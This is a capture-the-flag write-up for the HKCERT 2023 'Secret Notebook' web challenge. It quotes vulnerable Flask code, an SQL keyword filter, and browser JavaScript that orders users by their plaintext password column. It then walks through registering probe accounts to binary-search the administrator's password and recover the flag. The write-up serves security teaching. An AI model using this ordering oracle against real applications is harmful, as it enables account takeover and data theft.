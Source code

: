 # Secret Notebook

by looking into the `app/app.py`

we can see the function `doGetPublicNotes(column, ascending)` is a bit SUS

```python
def doGetPublicNotes(column, ascending):
    connector = getConnector()
    cursor = connector.cursor()
    if column and not isInputValid(column):
        abort(403)
    if ascending  != "ASC":
        ascending = "DESC"
    cursor.execute(f"SELECT username, publicnote FROM users ORDER BY {column} {ascending};") <---
    results = []
    for row in cursor.fetchall():
        results.append({'username':row[0],
        'publicnote':row[1]})
    cursor.close()
    connector.close()
    return results
```

while the other functions use `PreparedStatement` to prevent `SQL Injection` <br/>
the above function `doGetPublicNotes` uses `String Concatenation` to construct its query

this give us a chance to do `SQL Injection`

however, I have no ideas on how to bypass those filters🥲

```python
def isInputValid(untrustedInput: str) -> bool:
    if "'" in untrustedInput \
        or "\"" in untrustedInput \
        or ";"  in untrustedInput \
        or "/"  in untrustedInput \
        or "*"  in untrustedInput \
        or "-"  in untrustedInput \
        or "#"  in untrustedInput \
        or "select"  in untrustedInput.lower() \
        or "insert"  in untrustedInput.lower() \
        or "update"  in untrustedInput.lower() \
        or "delete"  in untrustedInput.lower() \
        or "where"  in untrustedInput.lower() \
        or "union"  in untrustedInput.lower() \
        or "sleep"  in untrustedInput.lower() \
        or "secretnote"  in untrustedInput.lower() :
        return False
    return True
```

therefore, i will use another way to solve this challenge <br/>
~~so why am i writing these stuffs~~

## Real Writeup

we know that the `Administrator` 's password is in `16 random digits`

<details>
<summary>init() in app.py</summary>

```python
def init():
    connector = getConnector()
    cursor = connector.cursor()
    digits = string.digits
    password = ''.join(secrets.choice(digits) for i in range(16))
    cursor.execute(f"INSERT INTO users (username, password, publicnote, secretnote) VALUES ('{'Administrator'}','{password}','{'Welcome! I am admin and I hope you are having fun.'}', '{os.environ['FLAG']}') ON DUPLICATE KEY UPDATE password = '{password}';")
    connector.commit()
    cursor.close()
    connector.close()
```

</details>

since the `user` table store `password` in plaintext (~~BAD, DONT DO THIS~~) <br/>
we can require the server to return public notes ordered by users' (and admin's) passwords <br/>

by investigating the website source, it can be easily seen that a function `retrievePublicNotes()` is bind to the button `Retrieve Public Notes`

<details>
<summary>retrievePublicNotes()</summary>

![](img/1.png)

```js
function retrievePublicNotes() {
    // Assuming you have an endpoint called 'publicNote'
    fetch('/note?noteType=public&column=username&ascending=ASC')
    .then(response => response.json())
    .then(data => {
        var div = document.getElementById("note");
        div.innerHTML = ""; // Clear previous notes
        var table = document.createElement('table');

        var headerRow = document.createElement('tr');

        var usernameHeader = document.createElement('th');
        usernameHeader.textContent = 'Username';
        headerRow.appendChild(usernameHeader);

        var publicNoteHeader = document.createElement('th');
        publicNoteHeader.textContent = 'Public Note';
        headerRow.appendChild(publicNoteHeader);

        table.appendChild(headerRow);
        data.content.forEach(function(item) {
            var row = document.createElement('tr');

            var usernameCell = document.createElement('td');
            usernameCell.textContent = escape(item.username);
            row.appendChild(usernameCell);

            var publicNoteCell = document.createElement('td');
            publicNoteCell.textContent = escape(item.publicnote);
            row.appendChild(publicNoteCell);

            table.appendChild(row);
        });
        div.appendChild(table);

    })
    .catch(error => console.error('Error:', error));
}
```

</details>

modify it to make it sort in `password` instead of `username`

```js
function retrievePublicNotesOrderByPassword() {
    // Assuming you have an endpoint called 'publicNote'
    fetch('/note?noteType=public&column=password&ascending=ASC')
    .then(response => response.json())
    .then(data => {
        var div = document.getElementById("note");
        div.innerHTML = ""; // Clear previous notes
        var table = document.createElement('table');

        var headerRow = document.createElement('tr');

        var usernameHeader = document.createElement('th');
        usernameHeader.textContent = 'Username';
        headerRow.appendChild(usernameHeader);

        var publicNoteHeader = document.createElement('th');
        publicNoteHeader.textContent = 'Public Note';
        headerRow.appendChild(publicNoteHeader);

        table.appendChild(headerRow);
        data.content.forEach(function(item) {
            var row = document.createElement('tr');

            var usernameCell = document.createElement('td');
            usernameCell.textContent = escape(item.username);
            row.appendChild(usernameCell);

            var publicNoteCell = document.createElement('td');
            publicNoteCell.textContent = escape(item.publicnote);
            row.appendChild(publicNoteCell);

            table.appendChild(row);
        });
        div.appendChild(table);

    })
    .catch(error => console.error('Error:', error));
}
```

paste the above function into `console` of your browser <br/>
and paste the below button into `elements` to make things easier 

<details>
<summary>screenshot</summary>

![](img/2.png)

</details>


```html
<button onclick="retrievePublicNotesOrderByPassword()">Order by password</button>
```

signup two accounts called `0000000000000000` and `9999999999999999` with their `passwords` same as their username

after pressing `Order by password` <br/>
we can see that the position of `Administrator` is between them <br/>
so the password of `Administrator` must be greater than `0000000000000000` but less than `9999999999999999`

<details>
<summary>screenshot</summary>

![](img/3.png)

</details>

keep signing up accounts is **toooooo** tedious <br/>
so I write a script to do this

https://github.com/STC-STEM/hkcert23ctf-writeups/tree/main/secret-notebook/solve.py

<details>
<summary>screenshots</summary>

![](img/4.png)
![](img/5.png)
![](img/6.png)

</details>

lastly, we get the following order in public notes

![](img/7.png)

from this order, we can tell that the password of `Administrator` could be either `0557192864287806` or `0557192864287807` (possibly the one with larger value) <br/>
in my case, it is `0557192864287807` (may be different from yours)

login with username `Administrator` and passowrd you gained <br/>
click `Retrieve Secret Notes` <br/>
you will get the flag

![](img/8.png)

flag: hkcert23{17_15_n07_50_53cr37_4f73r_4ll}